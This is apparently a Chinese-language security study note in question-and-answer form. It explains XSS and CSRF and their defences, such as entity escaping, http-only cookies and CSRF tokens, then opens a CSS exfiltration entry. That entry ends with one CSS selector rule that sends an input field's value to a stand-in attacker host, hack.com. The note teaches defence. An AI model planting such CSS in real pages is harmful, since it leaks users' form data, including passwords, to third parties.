 # Security Mind Map



## 浏览器

#### XSS 的原理是怎么样的？

XSS（Cross Site Scripting）跨站脚本攻击，通过某种方式将非法代码挂载在 URL、或者后端数据中，以达到让浏览器执行的目的。反射型 XSS 和储存型 XSS 都是利用后端返回的非法脚本直接在前端展示，就得到了执行。DOM-Based XSS 是通过修改源码内容来执行的。比如说，反射型 XSS 可能是一封黑客的邮件，链接参数带上了脚本代码；储存型 XSS 在可视化编辑器中很常见；DOM-Based XSS 可能是执行了一段 URL Hash 里面拿到的文本。

#### XSS 有哪些危害，怎么防范？

XSS 可以用来盗取 Cookie、DDos、篡改数据等。防范最基本要做的就是是后端不应该信任前端传来的数据，并且要做好过滤，把字符转义为 HTML 实体。其次是给 Cookie 设上 http-only。

#### CSRF 攻击原理是怎么样的？

CSRF（Cross Site Request Forgery）跨站请求伪造，主要原理是黑客利用了用户在敏感站点保持的登录态，在另一个用户访问的网页去伪造敏感站点的请求。

#### CSRF 怎么防范？

可以使用 CSRF token 方案。每次用户请求 HTML 都在其中设置一个随机的 Token，在请求时带上。

## 三剑客

#### CSS Exfil 攻击原理是什么？

```css
input[value^=a]{
  background-image: url(http://hack.com/a);
}
```
